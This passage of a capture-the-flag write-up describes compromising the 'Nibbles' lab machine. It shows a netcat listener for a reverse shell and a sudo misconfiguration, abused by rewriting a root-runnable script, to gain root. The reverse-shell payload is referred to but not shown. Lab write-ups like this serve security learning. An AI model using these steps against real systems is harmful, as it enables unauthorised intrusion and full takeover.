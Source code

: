 5. **Listener for Reverse Shell**:
	- In a final terminal, the attacker runs the following command to listen for the incoming reverse shell connection:
	```
	nc -nvlp 443
	```
	- I need to wait for the connection from the server, and once established, I gain interactive access to the target system's shell.
	 
<br>
Finally, I go to the directory /home/nibbler and we find the flag on `user.txt`.

## Privilege Scalation
Firstly lets list the priveleges or permissions that I have assigned, to do that I used the command `sudo -l`.
<u>Output</u>
```bash
$ nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```
If we pay attention we find an interesting zip that is on nibbler directory called monitor.sh that we can execute as root.
<br>
It seems that file is on the personal.zip:

```bash
$ nibbler@Nibbles:/home/nibbler$ ls
ls
personal
user.txt
```
<br>
<br>
Let's unzip that file to see what's there with that command:
```bash
unzip personal
```
If we go to monitor.sh we have full permissions to modify the file, so I am gonna establish a reverse shell with my machine, to do that I am gonna write the command that was on `payload.sh` and I am going to execute with `sudo`as root:
```bash
sudo monitor.sh
```
<br>
<br>
Finally, we are root!!!
<br>

We have the flag here:
```bash
$ root@Nibbles:/home/nibbler/personal/stuff# cd /root
cd /root
$ root@Nibbles:~# ls
ls
root.txt

```
